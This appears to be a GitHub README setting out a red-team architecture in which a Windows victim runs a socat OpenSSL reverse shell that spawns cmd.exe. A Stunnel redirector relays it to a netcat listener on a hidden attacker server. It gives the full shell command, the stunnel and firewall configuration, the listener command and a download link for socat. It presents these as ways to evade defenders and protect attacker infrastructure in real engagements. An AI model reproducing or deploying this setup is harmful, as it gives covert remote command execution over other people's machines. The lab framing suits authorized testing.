 # TLS_redirect
## Simple resilient TLS reverse shell architecture

Here I will illustrate how to implement a simple but effective Redteam architecture to serve a reverse shell. Following the diagram:
<br>![Screenshot](RedTLS.png)<br>
I set up my ParrotOS VM to perform a TLS redirect to a CentOS server that acts as attacker. Since in a real engagment it is probable that the front end will be <i>burnt</i>, using this simple approach can save the attacker business logic and protect our <i>weapons</i>, making the things a bit harder for the blue teamers buddies :) <br> In this scenario we can expose only the server that acts as redirector with a public IP, of course once the front end is burnt probably even the public IP will suffer the same fate and that's no good since the scarcity of them. Some useful resources to check IP reputation:
- https://ipremoval.sms.symantec.com
- https://www.ip-finder.me/ip-full-list
Eventually we can concetrate our effort in hardening the CentOS server (attacker), in this example I have only put in place a firewall. So recalling the roles of the play we have:
1. Win10Pro machine with AV and firewall in place. The payload will be a simple socat openssl reverse shell
1. Parrot OS machine with Stunnel service that will redirect the incoming TLS connection to...
1. Attacker machine, a CentOS 8 server that will get the reverse shell not encrypted
### LAB configuration

#### Victim machine. 
- IP 192.168.1.6

Download the compiled socat for windows from here: https://github.com/zinzloun/TLS_redirect/raw/main/socat-1.7.3.2-1-x86_64.zip. Unzip the file and move the unzipped folder where you prefer, of course the folder is the position from where we will execute our payload. For convenience I put the folder into the enviroment PATH variable

#### TLS redirector
- Dual homed
  - IP 192.168.17 that acts as public interface
  - IP 10.0.2.5 that acts as internal interface

Here install Stunell and configure to forward the traffic to the attacker machine using netcat. I will skip the part about how to create a self signed certificate, just browse the web. The configuration is self explanatory:
  ```
  sudo apt install stunnell4
  cat /etc/stunnel/stunnel.conf 
  [nc]
  client = no
  accept = 443
  connect = 10.0.2.10:6666
  cert = /etc/stunnel/stunnel.pem
  ```
  Now lunch the service and check it out:
```
  service stunnel4 start 
  netstat -tulpn | grep 443
  tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      4687/stunnel4       
```
#### The attacker machine
- IP 10.0.2.10

Here I had to install netcat:
```
sudo yum install nc
```
Then I configured the firewall to allow incoming connection from the redirector as follows:
```
sudo firewall-cmd --new-zone=redPar --permanent
sudo firewall-cmd --reload
sudo firewall-cmd --zone=redPar --add-source=10.0.2.5/32 --permanent
sudo firewall-cmd --zone=redPar --add-port=6666/tcp --permanent
sudo firewall-cmd --reload
```
Verify the configuration:
```
 sudo firewall-cmd --zone=redPar --list-all
  redPar (active)
    target: default
    icmp-block-inversion: no
    interfaces:
    sources: 10.0.2.5/32
    services:
    ports: 6666/tcp
    protocols:
    masquerade: no
    forward-ports:
    source-ports:
    icmp-blocks:
    rich rules:
```
Eventually to delete the zone issue:
```
sudo firewall-cmd --permanent --delete-zone=redPar
sudo firewall-cmd --reload
```
Finally lunch the listener:
```
sudo nc -lvp 6666
```

## Verify
On the Win victim machine lunch the socat TLS reverse shell as follows:
```
socat OPENSSL:192.168.1.7:443,verify=0 EXEC:'cmd.exe',pipes
```
The flow is the follows where (1) is the victim, (2) is the redirector and (3) is the attacker:
<br>![Screenshot](run.png)<br>

We can inspect the traffic usign Wireshark*:
<br>![Screenshot](ssl_hand.png)<br>

## Conclusion
This is a simple architecture that would require a little built effort, a trusted public IP and eventually a valid TLS certificate are necessarty to work better, even if the last one is not a strict requirement as long as we are able to bypass the certificate validation on the victim, like in this scenario. Of course if the redirector is compromised it can reveal the private IP address of the attacker but since this is not public one it can be easely changed. In a real engagment of course we have to hardening even the redirector leaving open on the public interface only the port 443, the managmente will be performend throught the private interface. At least a host firewall is stongly recommended even on the redirector.
---
**NOTE**
###### *If your Lab (as mine) is created using a virtualizer (e.g. Virtualbox) remember that you can not itercept any traffics with a bridged mode network configuration on the host machine, since it bypass the host OS network stack entirely. Here I'm running Wireshark on the guest Parrot OS redirector*
---
